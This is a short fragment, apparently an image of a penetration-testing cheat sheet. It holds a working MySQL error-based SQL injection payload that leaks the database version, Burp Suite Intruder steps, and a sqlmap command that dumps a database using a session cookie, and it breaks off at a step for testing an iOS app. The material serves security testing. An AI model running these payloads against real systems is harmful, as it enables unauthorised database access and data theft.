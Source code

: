 ```bash
# 7. Error-based SQLi
?id=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT version()),0x3a,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)y)--

# Using Burp Suite:
1. Identify input parameters
2. Send to Intruder
3. Load SQLi payload list
4. Analyze responses for differences

# Using sqlmap:
sqlmap -u "https://api.example.com/user?id=1" \
       --cookie="session=ABC123" \
       --dump

# Test in iOS app:
1. Find input fields (login, search, filters)
